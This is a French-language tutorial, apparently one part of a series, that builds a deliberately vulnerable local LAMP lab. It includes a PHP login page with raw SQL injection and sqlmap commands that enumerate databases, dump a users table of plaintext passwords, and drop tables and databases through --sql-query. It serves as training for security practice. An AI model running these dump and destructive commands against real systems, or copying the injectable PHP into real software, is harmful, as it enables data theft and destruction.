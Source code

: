 # 🧨 **PARTIE 07 – Hors-Série : Simulation d’une Attaque SQL Injection avec sqlmap sur une Base de Données MySQL Non Sécurisée**


1. Création d’un environnement vulnérable avec MySQL non sécurisé  
2. Page PHP injectable  
3. Toutes les **commandes sqlmap** pour :
   - Découvrir les bases de données
   - Explorer les tables
   - Extraire les données (dump)
   - Supprimer des bases de données ou des tables via sqlmap (en mode test)

---

# 🧨 PARTIE 7 – Hors-Série : Attaque d’une base de données non sécurisée avec sqlmap

---

## 🔧 ÉTAPE 1 – Créer un environnement vulnérable

### 📦 Installer le stack LAMP non sécurisé
```bash
sudo apt update
sudo apt install apache2 mysql-server php php-mysql libapache2-mod-php -y
```

⚠️ **NE PAS sécuriser MySQL** :  
Ne pas lancer `mysql_secure_installation`

---

### 🗃️ Créer une base de données vulnérable

```bash
sudo mysql -u root

CREATE DATABASE testdb;
USE testdb;

CREATE TABLE users (
  id INT AUTO_INCREMENT PRIMARY KEY,
  username VARCHAR(50),
  password VARCHAR(50)
);

INSERT INTO users (username, password) VALUES 
('admin', 'admin123'),
('jean', 'pass1234'),
('root', 'toor'),
('alice', '123456');

EXIT;
```

---

## 🧑‍💻 ÉTAPE 2 – Créer une page PHP vulnérable à l'injection SQL

### 📁 Fichier : `/var/www/html/login.php`
```php
<?php
$mysqli = new mysqli("localhost", "root", "", "testdb");
if ($mysqli->connect_error) {
    die("Connection failed: " . $mysqli->connect_error);
}

$user = $_GET['user'];
$pass = $_GET['pass'];

$sql = "SELECT * FROM users WHERE username = '$user' AND password = '$pass'";
$result = $mysqli->query($sql);

if ($result->num_rows > 0) {
    echo "Logged in successfully!";
} else {
    echo "Login failed.";
}
?>
```

➡️ Accessible à :  
`http://localhost/login.php?user=admin&pass=admin123`

---

## 🧪 ÉTAPE 3 – Exploiter la faille avec **sqlmap**

### ✅ Tester si la cible est vulnérable

```bash
sqlmap -u "http://localhost/login.php?user=admin&pass=admin123" --batch --risk=3 --level=5
```

---

### 📂 Lister les bases de données :

```bash
sqlmap -u "http://localhost/login.php?user=admin&pass=admin123" --dbs
```

---

### 🗂️ Lister les tables de `testdb` :

```bash
sqlmap -u "http://localhost/login.php?user=admin&pass=admin123" -D testdb --tables
```

---

### 📑 Lister les colonnes de la table `users` :

```bash
sqlmap -u "http://localhost/login.php?user=admin&pass=admin123" -D testdb -T users --columns
```

---

### 📤 Dumper tout le contenu de `testdb.users` :

```bash
sqlmap -u "http://localhost/login.php?user=admin&pass=admin123" -D testdb -T users --dump
```

---

## 💥 ÉTAPE 4 – Supprimer la base ou une table avec **sqlmap**

> ⚠️ Sqlmap ne fournit pas directement une commande "drop database", mais tu peux **exécuter une requête SQL arbitraire** avec `--sql-query`.

### 🗑️ Supprimer une table :
```bash
sqlmap -u "http://localhost/login.php?user=admin&pass=admin123" --sql-query="DROP TABLE testdb.users"
```

### ☠️ Supprimer une base entière :
```bash
sqlmap -u "http://localhost/login.php?user=admin&pass=admin123" --sql-query="DROP DATABASE testdb"
```

✅ Ces commandes **suppriment réellement** les données sur le serveur MySQL.

---

## ✅ Résumé des commandes sqlmap

| Action                                 | Commande                                                                 |
|----------------------------------------|--------------------------------------------------------------------------|
| Vérifier vulnérabilité                 | `sqlmap -u "URL" --batch --risk=3 --level=5`                             |
| Lister les bases                       | `sqlmap -u "URL" --dbs`                                                  |
| Lister les tables d'une base           | `sqlmap -u "URL" -D testdb --tables`                                     |
| Lister les colonnes d'une table        | `sqlmap -u "URL" -D testdb -T users --columns`                           |
| Dumper une table                       | `sqlmap -u "URL" -D testdb -T users --dump`                              |
| Supprimer une table                    | `sqlmap -u "URL" --sql-query="DROP TABLE testdb.users"`                  |
| Supprimer une base                     | `sqlmap -u "URL" --sql-query="DROP DATABASE testdb"`                     |

---

## 🧹 ÉTAPE 5 – Nettoyage de l’environnement

```bash
sudo systemctl stop apache2
sudo systemctl stop mysql
sudo rm -rf /var/www/html/*
sudo apt remove apache2 mysql-server php php-mysql libapache2-mod-php -y
sudo apt autoremove -y
```
